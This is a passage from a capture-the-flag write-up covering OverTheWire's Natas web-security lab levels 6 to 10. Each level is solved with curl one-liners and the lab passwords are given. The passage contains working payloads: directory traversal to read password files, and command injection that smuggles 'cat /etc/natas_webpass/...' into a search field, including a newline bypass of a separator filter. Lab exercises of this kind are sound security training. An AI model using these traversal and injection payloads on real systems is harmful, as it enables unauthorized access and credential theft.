 After viewing source code it's clear that secret is in `/includes/secret.inc`:`

```
# extract secret:
$ SECRET=$(curl -s -H "Authorization: Basic `echo -n 'natas6:aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1' | base64`" http://natas6.natas.labs.overthewire.org/includes/secret.inc | grep secret | cut -d '"' -f2)

$ curl -s -H "Authorization: Basic `echo -n 'natas6:aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1' | base64`" http://natas6.natas.labs.overthewire.org/ -d "secret=$SECRET&submit=1"
```

### natas7

**Vuln:** basic directory traversal

```
# read the hint:
$ curl -s -H "Authorization: Basic `echo -n 'natas7:7z3hEENjQtflzgnT29q7wAvMNfZdh0i9' | base64`" http://natas7.natas.labs.overthewire.org/ | grep hint

# extract the password:
$ curl -s -H "Authorization: Basic `echo -n 'natas7:7z3hEENjQtflzgnT29q7wAvMNfZdh0i9' | base64`" http://natas7.natas.labs.overthewire.org/index.php?page=../../../../etc/natas_webpass/natas8 | tail -6 | head -1
```

### natas8

```
http://natas8.natas.labs.overthewire.org
natas8
DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe
```

```
# reverse the encoding function available in source code:
$ SECRET=$(echo -n "3d3d516343746d4d6d6c315669563362" | xxd -r -p | rev | base64 -d)

$ curl -s -H "Authorization: Basic `echo -n 'natas8:DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe' | base64`" http://natas8.natas.labs.overthewire.org/ -d "secret=$SECRET&submit=1" | grep natas9
```

### natas9

    $ curl -s -H "Authorization: Basic `echo -n 'natas9:W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl' | base64`" http://natas9.natas.labs.overthewire.org/index.php -d "needle=;cat+/etc/natas_webpass/natas10;&submit=Search" | tail -7 | head -1

### natas10

This time following Bash commands separators: `;|&` are filtered so use `\n`:

    $ curl -s -H "Authorization: Basic `echo -n 'natas10:nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu' | base64`" http://natas10.natas.labs.overthewire.org/index.php -d "needle=%0acat+/etc/natas_webpass/natas11%0a&submit=Search"  | tail -7 | head -1
